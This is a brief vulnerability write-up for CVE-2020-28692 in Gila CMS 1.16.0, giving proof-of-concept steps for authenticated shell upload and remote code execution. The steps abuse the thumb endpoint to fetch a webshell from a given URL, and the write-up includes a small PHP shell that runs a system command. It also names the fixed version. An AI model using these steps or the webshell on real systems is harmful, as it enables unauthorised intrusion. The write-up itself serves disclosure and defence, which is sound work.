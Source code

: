 ```yaml
---
layout: post
title:  "Gila-CMS-1.16.0-shell-upload (CVE-2020-28692)"
date:   2020-11-17

categories: Writeup, CVE
---
```


Author: jkana

# POC

1.Login as administrator or any users have logs permission

2.Access to **http://IP/admin/fm?f=tmp/** .

```
http://192.168.0.105:1234/gila16/admin/fm?f=tmp/
```

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/1.JPG)

3.Click **+File** and create **.htaccess** :

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/2.JPG)

4.Use this URL for downloading shell to gila's tmp directory **http://IP/lzld/thumb?size=600&src=SHELL_URL** .For example

```http://192.168.0.105:1234/gila16/lzld/thumb?size=600&src=http://192.168.0.105:1234/files/shell.php```

5.We can check shell name with **http://IP/admin/fm?f=tmp/** .

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/3.JPG)

6.Access to webshell and got RCE!

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/4.JPG)

# How to fix

Update to **Gila CMS 1.16.1**

# shell.php

```
<?php
$output = shell_exec('ipconfig');
echo "<pre>$output</pre>";
?>
```

